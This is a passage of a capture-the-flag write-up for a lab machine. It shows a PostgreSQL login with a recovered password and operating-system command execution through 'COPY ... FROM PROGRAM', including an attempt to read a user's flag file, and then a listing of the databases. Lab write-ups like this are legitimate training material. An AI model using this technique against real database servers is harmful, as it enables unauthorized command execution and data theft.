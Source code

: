 Using the set of credentials, we are able to authenticate to psql

```
app@cozyhosting:/app$ psql -U postgres -h localhost -W
psql -U postgres -h localhost -W
Password: Vg&nvzAQ7XxR

psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# 
```

Since we are able to gain access to the psql database, we will be able to execute commands as the psql user

```
postgres=# DROP TABLE IF EXISTS cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
NOTICE:  table "cmd_exec" does not exist, skipping
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
postgres=# COPY cmd_exec FROM PROGRAM 'id';
COPY cmd_exec FROM PROGRAM 'id';
COPY 1
postgres=# SELECT * from cmd_exec;
SELECT * from cmd_exec;
                               cmd_output                               
------------------------------------------------------------------------
 uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)
(1 row)
```

However, we notice that we are still unable to read the user flag as the postgres user due to insufficient permissions

```
postgres=# DROP TABLE IF EXISTS cmd_exec;
DROP TABLE IF EXISTS cmd_exec;
DROP TABLE
postgres=# CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE cmd_exec(cmd_output text);
CREATE TABLE
postgres=# COPY cmd_exec FROM PROGRAM 'cat /home/josh/user.txt';
COPY cmd_exec FROM PROGRAM 'cat /home/josh/user.txt';
ERROR:  program "cat /home/josh/user.txt" failed
DETAIL:  child process exited with exit code 1
```

Listing all the database using ```\l```, we are able to find a list of databases

```
postgres=# \l
\l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)
```
